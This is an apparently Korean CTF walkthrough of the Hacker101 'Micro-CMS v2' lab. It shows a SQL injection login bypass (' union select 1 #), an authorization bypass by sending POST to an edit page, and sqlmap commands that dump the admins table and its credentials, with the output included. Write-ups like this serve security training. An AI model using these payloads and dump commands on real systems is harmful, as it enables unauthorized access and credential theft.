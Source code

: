 # Micro-CMS v2

## HINTS

### Flag0 -- Found

* Regular users can only see public pages
* Getting admin access might require a more perfect union
* Knowing the password is cool, but there are other approaches that might be easier

### Flag1 -- Found

* What actions could you perform as a regular user on the last level, which you can't now?
* Just because request fails with one method doesn't mean it will fail with a different method
* Different requests often have different required authorization

### Flag2 -- Found

* Credentials are secret, flags are secret. Coincidence?

## FLAG0

일반적인 유저가 아니라 admin권한을 획득해야 볼 수 있는 페이지가 있는듯 하다.

`Create New`를 클릭하면 login창이 뜨는것을 확인 할 수 있고 sql injection을 통해 우회가 가능하다.

이때 DBMS를 확인하기 위해 먼저 주석의 구분을 지었는데 주석으로 `--` 을 써주면 python Error가 뜨며 구문을 확인 할 수 있다.

**input : `' --`**

```python
Traceback (most recent call last):
  File "./main.py", line 145, in do_login
    if cur.execute('SELECT password FROM admins WHERE username=\'%s\'' % request.form['username'].replace('%', '%%')) == 0:
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/cursors.py", line 255, in execute
    self.errorhandler(self, exc, value)
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/connections.py", line 50, in defaulterrorhandler
    raise errorvalue
ProgrammingError: (1064, "You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''' at line 1")
```

이 에러메세지를 통해 DBMS는 MySQL이며 구문은 `SELECT password FROM admins WHERE username=\'%s\''`이라는것을 알 수 있다. 즉 해당 username으로 부터 password를 꺼내오는 것이기 때문에 union을 통해 가상의 유저를 생성해내면 우회가 가능하다.

**input : `' union select 1 #`**

username부분에 위와 같이 입력후 password를 1이라고 입력하면 성공적으로 Login이 되며 Private Page를 확인 할 수 있다.

## FLAG1

flag1은 다시 admin권한이 없는 guest유저가 할 수 없는 edit페이지에 입장권한을 찾는일이다. FLAG0를 풀기위해 했던 login을 다시 logout하고 edit페이지에 들어가려하면 다시 login창이 뜬다. 하지만 우리가 페이지에 접근할때 사용하는 메소드는 GET뿐만이 아니다.

### Http Methods

HTTP는 주어진 리소스에 필요한 액션이 수행되게 하는 **요청 메소드** 집합을 정의합니다. 물론 명사로도 쓰일 수 있지만, 이 요청 메소드들을 종종 _HTTP 동사로_ 부릅니다. 각각은 서로 다른 구문을 구현하지만, 일부 공통 기능은 공유합니다. 예를 들어서 요청 메소드는 safe, idempotent, 또는 cacheable합니다.

* `GET`

  `GET` 메소드는 특정 리소스의 표시를 요청합니다. `GET`을 사용하는 요청은 오직 데이터를 받기만 합니다.

* `HEAD`

  `HEAD` 메소드는 `GET` 메소드의 요청과 동일한 응답을 요구하지만, 응답 본문을 포함하지 않습니다.

* `POST`

  `POST` 메소드는 특정 리소스에 엔티티를 제출할 때 쓰입니다. 이는 종종 서버의 상태의 변화나 부작용을 일으킵니다.

* `PUT`

  `PUT` 메소드는 목적 리소스 모든 현재 표시를 요청 payload로 바꿉니다.

* `DELETE`

  `DELETE` 메소드는 특정 리소스를 삭제합니다.

* `CONNECT`

  `CONNECT` 메소드는 목적 리소스로 식별되는 서버로의 터널을 맺습니다.

* `OPTIONS`

  `OPTIONS` 메소드는 목적 리소스의 통신을 설정하는 데 쓰입니다.

* `TRACE`

  `TRACE` 메소드는 목적 리소스의 경로를 따라 메시지 loop-back 테스트를 합니다.

* `PATCH`

  `PATCH` 메소드는 리소스의 부분만을 수정하는 데 쓰입니다.

Source : [https://developer.mozilla.org/ko/docs/Web/HTTP/Methods](https://developer.mozilla.org/ko/docs/Web/HTTP/Methods)

### OPTIONS

먼저 페이지에 options패킷을 날려서 해당페이지가 Allow하고 있는 메소드들을 확인한다.

```python
import requests as req

r = req.options("http://35.190.155.168/1aeb93f839/page/edit/2")
print(r.headers["Allow"])

#OUTPUT : HEAD, GET, POST, OPTIONS
```

Allow하는 메소드는 총4가지로 `GET,POST,OPTIONS,HEAD` 인것을 확인할 수 있다. 여기서 GET,OPTIONS,HEAD를 제외하면 `POST`하나가 남는다. POST패킷을 날려서 확인해보자.

```python
import requests as req

r = req.post("http://35.190.155.168/1aeb93f839/page/edit/2")
print(r.text)
#OUTPUT : ^FLAG^*****************$FLAG$
```

로그인하지 않은상태로 edit페이지에 post로 접근하자 flag를 반환해주는것을 확인 할 수 있다.

## FLAG2

flag2는 flag1처럼 가상의 유저를 생성하는게 아닌 실제 유저를 찾아내라는 문제이다.

즉, sql injection을 통해 직접 DB를 DUMP해야 하는 문제이다. 어차피 이 사이트는 sql injection이 그대로 먹히므로 그냥 `sqlmap`으로 풀기로 하였다.

### Get Tables

```bash
❯ sqlmap -u "http://35.190.155.168/1aeb93f839/login" -data "username=admi&password=dsfdsf" --tables


Database: level2
[2 tables]
+----------------------------------------------------+
| admins                                             |
| pages                                              |
+----------------------------------------------------+
```

Sqlmap으로 --tables옵션을 붙여주면 table목록을 덤프떠준다.

### DUMP - admins

딱봐도 admin계정정보가 담겨있을거같은 admins테이블을 덤프떠본다.

```bash
❯ sqlmap -u "http://35.190.155.168/1aeb93f839/login" -data "username=admi&password=dsfdsf" -D level2 -T admins --dump

Database: level2
Table: admins
[1 entry]
+----+----------+----------+
| id | password | username |
+----+----------+----------+
| 1  | berry    | mirna    |
+----+----------+----------+
```

* `-D` 옵션으로 데이터베이스를 지정해주고 
* `-T` 옵션으로 덤프뜰 테이블을 지정해준뒤
* `--dump` 옵션으로 해당테이블을 덤프해준다.

덤프를 통해 확인된 계정으로 로그인하면 flag를 띄워준다.

